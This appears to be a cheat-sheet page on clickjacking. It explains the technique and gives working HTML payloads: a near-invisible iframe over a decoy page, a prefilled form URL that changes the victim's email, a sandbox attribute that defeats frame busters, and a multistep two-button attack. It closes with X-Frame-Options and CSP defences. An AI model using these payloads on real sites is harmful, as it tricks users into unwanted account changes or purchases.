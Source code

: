 # Clickjacking (UI redressing)

Clickjacking, also known as a 'UI redress attack,' is a malicious technique where an attacker tricks a user into clicking on something different from what the user perceives, effectively hijacking their clicks to perform unintended actions, often without their knowledge or consent.

### Table of content

- [how it works](#how-it-works)
- [default payload](#default-payload)
- [Clickjacking with prefilled form input](#clickjacking-with-prefilled-form-input)
- [Frame busting scripts](#frame-busting-scripts)
- [Combining clickjacking with a DOM XSS attack](#combining-clickjacking-with-a-dom-xss-attack)
- [Multistep clickjacking](#multistep-clickjacking)

## How it works ? 

The idea of the exploit is to create a fake website wich contain in background the target website load with `<iframe>` with opacity 0. Create a fake button, situated exaclty over a real button on the target site, and when the user gonna click on the button, it gonna click on the target web site's button.

## Default payload

Clickjacking attacks use CSS to create and manipulate layers. The attacker incorporates the target website as an iframe layer overlaid on the decoy website. An example using the style tag and parameters is as follows:

```html
<html>
    <head>
        <style>
            #target_website {
                position:relative;
                width:800px;
                height:600px;
                opacity:0.00001;
                z-index:2;
                }
            #decoy_website {
                position:absolute;
                width:300px;
                height:400px;
                z-index:1;
                }
        </style>
    </head>
    <body>
        <div id="decoy_website">
        ...decoy web content here...
        </div>
        <iframe id="target_website" src="https://vulnerable-website.com">
        </iframe>
    </body>
</html>
```

## Clickjacking with prefilled form input

If you want the user submit a form on the target website, you can try prefill the form input by giving the value in URL parameters.

this iframe:

```html
<iframe id="target_website" src="https://vulnerable-website.com">
```

could be change to:

```html
<iframe id="target_website" src="https://vulnerable-website.com/change-email?email=pwn@gg.com">
```

## Frame busting scripts

Clickjacking attacks are possible whenever websites can be framed. Therefore, preventative techniques are based upon restricting the framing capability for websites.

An effective attacker workaround against frame busters is to use the HTML5 iframe sandbox attribute. 

When this is set with the allow-forms or allow-scripts values and the allow-top-navigation value is omitted then the frame buster script can be neutralized as the iframe cannot check whether or not it is the top window:

```html
<iframe id="target_website" src="https://victim-website.com" sandbox="allow-forms"></iframe>
```

*:warning: Both the allow-forms and allow-scripts values permit the specified actions within the iframe but top-level navigation is disabled.*


## Combining clickjacking with a DOM XSS attack

Clickjacking is highly effective in coercing users into performing malicious actions.

[xss cheat sheet](/web/xss.md)

## Multistep clickjacking

Attacker manipulation of inputs to a target website may necessitate multiple actions. For example, an attacker might want to trick a user into buying something from a retail website so items need to be added to a shopping basket before the order is placed. These actions can be implemented by the attacker using multiple divisions or iframes. Such attacks require considerable precision and care from the attacker perspective if they are to be effective and stealthy.

example:

```html
<html>
    <head>
        <style>
            #target_website {
                position:relative;
                width:800px;
                height:600px;
                opacity:0.00001;
                z-index:3;
                }
            #decoy_website {
                position:absolute;
                width:300px;
                height:400px;
                z-index:1;
                top: 495;
                left: 77;
                }
            #decoy_two {
                position:absolute;
                width:300px;
                height:400px;
                z-index:2;
                top: 255;
                left: 200;
            }
        </style>
    </head>
    <body>
        <div id="decoy_website">
            <button class="button" type="submit">Click me first</button>
        </div>
        <div id="decoy_two">
            <button class="button" type="submit">Click me next</button>
        </div>
        <iframe id="target_website" src="https://vuln.net/my-account">
        </iframe>
    </body>
</html>
```

## Prevent clickjacking

### X-Frame-Options

The header provides the website owner with control over the use of iframes or objects:

```c
// no frame allowed
X-Frame-Options: deny

// sameorigin politic
X-Frame-Options: sameorigin

// allow from URL
X-Frame-Options: allow-from https://normal-website.com
```

### Content Security Policy (CSP)

[CSP page](/web/csp.md)

```c
// no frame allowed
Content-Security-Policy: frame-ancestors 'none';

// sameorigin politic
Content-Security-Policy: frame-ancestors 'self';

// allow from URL
Content-Security-Policy: frame-ancestors normal-website.com;
```

---

[**:arrow_right_hook: Back home**](/README.md)